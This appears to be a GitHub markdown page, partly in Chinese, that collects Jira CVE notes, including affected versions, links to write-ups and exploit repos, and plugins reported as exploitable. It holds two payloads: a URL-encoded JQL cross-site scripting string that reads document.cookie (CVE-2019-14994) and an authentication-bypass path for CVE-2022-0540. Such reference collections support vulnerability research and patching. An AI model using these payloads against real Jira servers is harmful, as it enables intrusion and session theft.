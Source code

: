 ### CVE-2019-14994
```
jql=issuetype%20%3D%20Epic%20AND%20%22Story%20Points%22%20%3C%3D%20%22%5C%22%3E%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E%22%20AND%20%22Story%20Points%22%20%3E%3D%20%221%22
```

#### Ref
- https://github.com/bugbounty-site/exploits/blob/master/CVE-2019-14994/exploit.py

### [CVE-2021-26086] Jira受限文件读取绕过
- [CVE-2021-26086(CVE-2021-26085)受限文件读取挖掘分析](https://tttang.com/archive/1323/)
- [jira环境搭建及受限文件读取原理和深思CVE-2021-26086](https://xz.aliyun.com/t/10922)

### [CVE-2021-39115] Template Injection in Email Templates leads to code execution on Jira Service Management Server
- https://github.com/PetrusViet/CVE-2021-39115
- [Atlassian JIRA服务器模板注入漏洞分析及挖掘](https://xz.aliyun.com/t/11354)

### [CVE-2022-0540] Jira Seraph认证绕过
影响的产品：
```
Jira
Jira Core Server
Jira Software Server
Jira Software Data Center
Jira Service Management
Jira Service Management Server
Jira Service Management Data Center
```
影响版本：
对于Jira Core Server/Jira Software Server/Jira Software Data Center
```
All versions before 8.13.18
8.14.x
8.15.x
8.16.x
8.17.x
8.18.x
8.19.x
8.20.x before 8.20.6
8.21.x
```
对于Jira Service Management Server/Jira Service Management Data Center
```
All versions before 4.13.18
4.14.x
4.15.x
4.16.x
4.17.x
4.18.x
4.19.x
4.20.x before 4.20.6
4.21.x
```


### PoC
```
/InsightPluginShowGeneralConfiguration.jspa;
```
### 已知的可利用插件
- [WBS Gantt-Chart for Jira](https://marketplace.atlassian.com/apps/1211768/wbs-gantt-chart-for-jira?hosting=datacenter&tab=versions): Preauth RCE (you can write any Java code with beanshell).
- [Insight - Asset Management](https://marketplace.atlassian.com/apps/1212137/insight-asset-management?tab=overview&hosting=datacenter): Bundled with Jira Service Management Server and Data Center, View, change Insight configuration (can RCE with object schema manager permissions by change the groovy script whitelist).


Ref:
- https://github.com/adampielak/nuclei-templates/blob/41b5ac924c9324599d979bc1f36c058f167b31d4/CVE-2022-0540.yaml
- https://blog.viettelcybersecurity.com/cve-2022-0540-authentication-bypass-in-seraph/
- https://confluence.atlassian.com/jira/jira-security-advisory-2022-04-20-1115127899.html
- [CVE-2022-0540: Jira身份验证绕过分析](https://xz.aliyun.com/t/11543)
- https://github.com/Pear1y/CVE-2022-0540-RCE
